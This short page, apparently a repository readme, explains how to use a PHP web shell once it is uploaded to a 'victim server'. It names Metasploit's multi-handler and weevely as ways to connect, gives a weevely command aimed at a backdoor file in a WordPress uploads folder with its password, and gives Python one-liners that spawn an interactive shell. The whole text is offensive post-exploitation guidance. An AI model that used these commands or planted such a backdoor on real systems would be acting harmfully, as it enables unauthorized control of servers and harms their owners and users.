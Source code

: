 PHP Webshell

There are many ways of using this webshell once uploaded on victim server
Methods:
* use MetsSploit and use miltihandler
* use weevley 
 weevely http://<IP>/wp-content/uploads/2016/08/phpbackdoor.php letmein
Below lines imports bash and starts a new shell. From here you will able to run commands as normal.
 python -c 'import pty; pty.spawn("/bin/sh")'
 python -c "import pty;pty.spawn('/bin/bash');"
